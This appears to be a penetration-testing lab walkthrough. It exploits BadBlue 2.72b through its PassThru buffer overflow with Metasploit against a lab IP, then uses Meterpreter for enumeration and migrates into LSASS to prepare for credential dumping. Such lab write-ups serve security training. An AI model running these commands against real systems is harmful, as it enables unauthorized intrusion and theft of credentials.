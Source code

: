 Target IP Address: 10.2.16.222

[BadBlue 2.72b PassThru Buffer Overflow](https://www.rapid7.com/db/modules/exploit/windows/http/badblue_passthru/)

This module exploits a stack buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier.

BadBlue 2.72b PassThru 缓冲区溢出

该模块利用了 BadBlue 2.72b 及更早版本中 ext.dll 中 PassThru 功能中的堆栈缓冲区溢出。

```
service postgresql start && msfconsole
workspace -a Mimikatz
setg RHOSTS 10.2.16.222
db_nmap -sV 10.2.16.222
search badblue 2.7
use exploit/windows/http/badblue_passthru
show options
set target BadBlue\ EE\ 2.7\ Universal
exploit
```

Perform some local system enumeration.

```
meterpreter > sysinfo
Meterpreter : x86/windows
```

List out the processes that we can migrate to.

```
meterpreter > ps
```

```
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
```

We have access via the administrator account, which means that our privileges are elevated. And in order to dump hashes or credentials, you need elevated privileges. That's why we covered the privilege escalation process beforehand.

So we can migrate to the LSASS process. So if I want to search for a specific process, I can utilize the `pgrep` option.

```
meterpreter > pgrep lsass
792
```

That's under the process id 792.

And because we have elevated privileges, we should be able to migrate without any issuses.

```
meterpreter > migrate 792
```
